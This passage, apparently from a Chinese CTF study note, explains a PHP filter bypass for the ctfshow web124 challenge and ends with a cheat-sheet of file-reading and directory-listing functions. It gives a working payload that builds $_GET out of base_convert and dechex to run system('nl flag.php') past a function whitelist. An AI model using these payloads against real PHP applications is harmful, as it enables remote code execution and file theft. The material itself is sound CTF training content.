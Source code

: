 #### web124 以数字和不敏感函数构造敏感函数

```
base_convert(37907361743,10,36) ===>hex2bin
hex2bin(dechex(1598506324))=======>_GET
$base_convert(37907361743,10,36)(dechex(1598506324))=======>$_GET
```

再利用白名单中的函数名当做变量名，即可构造出类似`$_GET[A]($_GET[B])`的形式，即可调用system('ls')

```
$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{sin}($$pi{cos})&sin=system&cos=nl flag.php
```



#### 随便总结

读取文件的函数

```php
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
```

获取目录

```php
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```



### 三、BUUCTF实战题
